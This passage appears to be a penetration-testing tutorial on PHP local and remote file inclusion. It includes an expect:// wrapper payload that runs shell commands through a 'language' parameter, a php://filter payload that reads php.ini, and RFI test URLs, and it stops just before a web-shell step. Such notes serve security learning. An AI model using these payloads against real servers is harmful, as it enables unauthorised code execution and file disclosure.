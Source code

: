 If the `expect` PHP extension is installed:

```bash
echo '<base64>' | base64 -d | grep expect
# should return: extension=expect
```

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```
Usage:

```
http://<SERVER_IP>:<PORT>/index.php?language=expect://id
```

This directly runs shell commands, no need to send a shell payload.

> ✅ These wrappers enable LFI → RCE directly and are powerful if server misconfigurations are present.

# Remote File Inclusion (RFI)
###### If the vulnerable function allows including remote URLs, RFI can be used to:
- ###### Execute remote code by including a malicious script
- ###### Enumerate local/internal services (SSRF-style)
### LFI vs RFI
###### Most RFI-vulnerable functions are also LFI-vulnerable, but not vice versa. RFI requires:
- ###### Full control over the input path (including protocol like `http://`)
- ###### Functions that support remote URLs (like `include()`)
- ###### PHP config: `allow_url_include = On`

> You can verify this with LFI:

```bash
php://filter/read=convert.base64-encode/resource=/etc/php/7.4/apache2/php.ini
```
### Verifying RFI

Try including:

```
?language=http://127.0.0.1/index.php
```

If remote content gets included and executed, then RFI is confirmed.

> ⚠️ Avoid recursive includes (like including the vulnerable page itself).
## Remote Code Execution with RFI
###  1. HTTP Server
###### Step 1: Create a simple PHP web shell:

